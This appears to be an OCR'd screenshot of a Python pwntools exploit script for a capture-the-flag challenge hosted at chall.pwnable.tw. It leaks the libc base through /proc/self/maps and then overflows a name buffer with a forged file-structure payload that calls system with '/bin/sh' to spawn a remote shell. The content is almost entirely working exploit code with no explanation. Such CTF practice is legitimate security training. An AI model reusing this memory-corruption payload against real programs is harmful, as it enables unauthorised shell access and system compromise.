 ```python
        p = process([elf.path])
        if args.D:
            gdb.attach(p, gdbscript=debug_script)
    else:
        p = remote("chall.pwnable.tw", 10200)

    return p


def p_exit(p, name):
    p.sendline(b"5")
    p.recvuntil(b"Leave your name :")
    p.sendline(name)
    p.interactive()
    p.recvuntil(b"see you next time\n")

def p_open(p, filename):
    p.sendline(b"1")
    p.recvuntil(b"What do you want to see :")
    p.sendline(filename)
    p.recvuntil(b"Your choice :")

def p_read(p):
    p.sendline(b"2")
    p.recvuntil(b"Your choice :")

def p_write(p):
    p.sendline(b"3")
    return p.recvuntil(b"Your choice :").split(b'\n')

def p_close(p):
    p.sendline(b"4")
    p.recvuntil(b"Your choice :")

def main():
    p = conn()
    print(p.recvuntil(b"Your choice :"))
    p_open(p, b"/proc/self/maps")
    p_read(p)
    p_read(p)
    stuff = p_write(p)
    x = stuff[1][0:8]
    libc_start = int(x,16) 
    print("Libc: {}".format(hex(libc_start)))
    libc.address = libc_start
    system = libc.symbols['system']
    name = elf.symbols['name']
    file = elf.symbols['filename']
    payload = p32(0xFFFFDFFF)
    payload += b';/bin/sh;'
    payload += b"A"*(32-len(payload))
    payload += p32(name)
    payload += b'`'
    payload += b"B"*(72-len(payload))
    payload += p32(file+0x20)
    payload += p32(name+0x48)
    payload += p32(system)
    p_exit(p, payload)
    p.interactive()


if __name__ == "__main__":
    main()
```